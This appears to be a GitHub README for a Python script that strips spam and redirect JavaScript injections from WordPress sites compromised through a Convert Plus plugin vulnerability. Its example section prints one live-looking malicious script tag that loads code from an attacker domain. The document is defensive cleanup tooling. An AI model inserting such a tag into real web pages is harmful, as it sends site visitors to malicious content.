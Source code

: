 # Wordpress Spam Attack Removal Script

Written in Python and compatible with both **Python2** and **Python3**.

This script essentially removes spam attack injections from a given path. The convertplug plugin that comes with Avada and the vulnurability which has been found by Wordfence have caused numerous sites to be hacked and their pages now redirects to various malicious and spam pages. 
You can read the details from here

<https://www.wordfence.com/blog/2019/05/critical-vulnerability-patched-in-popular-convert-plus-plugin/>

## Considirations

This script utilizes **RAM** while reading files and does not **discriminate** file extensions and checks all files. This can be improved by various methods.

__PS : This script does replaces text that is inside the "database.json" does not locates or scans shells.__

### Scope

There are 4 specific JS injections that have been occured after this vulnurability and the database.json contains only those records. In case you want to add further javascript/to be replaced you can use insert.py.

#### Example Injected Script

```html
<script type='text/javascript' async src='https://css.developmyredflag.top/sjquery.min.js?style=prime&'></script>
```

Various kinds of scripts exists like these and this tool/script automizes the removal process without breaking themes, plugins and sites as a whole. Instead of using backups for this using this script and scanning for shells through Wordfence can be an option.

## Example Usage

Script is written for Python 2.7 + and logs the altered files as well so you can use these logs to make sure they are clean for manual inspection.

Install the dependencies and devDependencies and start the server.

### Example Insert Operation

```sh
python insert.py "string_in_double_quotes"
```

### Example Cleanup Operation

```sh
python cleanup.py your_domain.com
```

or entering a whole path like

```sh
python cleanup.py /home/user/your_domain.com
```

### License

License can be found under LICENSE in this repository.
